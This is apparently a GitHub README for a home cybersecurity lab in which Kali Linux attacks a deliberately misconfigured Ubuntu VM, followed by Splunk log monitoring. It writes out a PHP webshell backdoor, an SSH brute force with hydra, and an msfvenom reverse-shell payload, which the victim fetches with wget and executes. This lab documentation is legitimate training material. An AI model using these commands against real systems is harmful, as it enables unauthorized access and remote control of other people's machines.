 # 🧪 Home Cybersecurity Lab – Kali + Vulnerable Ubuntu VM

Welcome to my home lab — a virtual environment built to simulate real-world cybersecurity scenarios using **Kali Linux** as the attacker machine and a misconfigured **Ubuntu VM** as the target. This project demonstrates vulnerability exploitation, monitoring, and detection using tools like **Hydra**, and **Splunk**.

>  This is a personal showcase project to demonstrate hands-on cybersecurity skills.  
>  Built entirely with VirtualBox and open-source tools.

---

## Lab Goals

- Create a vulnerable target system from scratch
- Perform attacks using Kali Linux
- Monitor logs and detect malicious activity

---

## Lab Setup

### Machines Used:

| Role      | OS           | Purpose                 |
|-----------|--------------|-------------------------|
| Attacker  | Kali Linux   | Penetration testing     |
| Victim    | Ubuntu 22.04 | Deliberately misconfigured |

### Virtualization:

- Software: [VirtualBox](https://www.virtualbox.org/)
- Network: Host-only Adapter (192.168.56.0/24)
- SSH/FTP ports exposed locally for testing

---

## Vulnerabilities Introduced

On the **Ubuntu VM**, I manually created misconfigurations:

1. **Weak credentials**
   - User: `testuser`
   - Password: `password`

2. **Insecure SSH config**
   - Password auth enabled
   - Root login allowed

3. **Open & misconfigured FTP server**
   - Anonymous access
   - No encryption

4. **PHP Webshell Backdoor**
   ```php
   <?php system($_GET['cmd']); ?>

**1. Nmap scan**
 ```python
   nmap -sn 192.168.56.0/24
   nmap -sC -sV -p- -oN fullscan.txt <Ubuntu_IP>
```
**2. Brute-Force SSH**
 ```python
   hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://<Ubuntu_IP>
   ssh testuser@<Ubuntu_IP>
 ```
**3. Generate Payload on Kali**
  ```python
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f elf -o file.elf
  ```
**3. Transfering Payload to Victim**
  
  set up a listener first:
  ```python
   nc -lvnp 4444
  ```
  Serve HTTP:
  ```python
  python3 -m http.server 8080
  ```
  on Ubuntu run:
 ```python
  wget http://<Kali_IP>:8080/file.elf
  chmod +x file.elf
  ./file.elf
 ```
5. **Detection with Splunk**
    1. Installed Splunk on Ubuntu:
   ```python
    wget -O splunk.deb https://download.splunk.com/products/splunk/releases/9.2.1/linux/splunk-9.2.1-<build>.deb
    sudo dpkg -i splunk.deb
    sudo /opt/splunk/bin/splunk start --accept-license
    sudo /opt/splunk/bin/splunk enable boot-start
   ```
    2. Log Sources:

    Monitored /var/log/auth.log, /var/log/apache2/access.log, and /var/log/syslog

**Searches**:

    index=_internal OR index=main

    "Failed password"

    "Accepted password"

    source="/var/log/auth.log"

    host="ubuntu-victim"

**What I Learned**

* How to safely simulate and exploit common vulnerabilities

* How to use tools like Nmap, Hydra and msfvenom

* How attackers leave traces in system logs

* How to use Splunk to detect unauthorized access

* How to document and present cybersecurity projects professionally

**Next Steps**


* Add more vulnerable services (e.g., MySQL, Redis)

* Try privilege escalation post-exploitation

* Automate some attacks with scripts

* Connect Splunk to a SIEM pipeline 



**Want to collab or ask questions?**

* [LinkedIn](https://www.linkedin.com/in/klaudija-balsyte-60b386251/)

* [Github](https://github.com/shoganaiix)
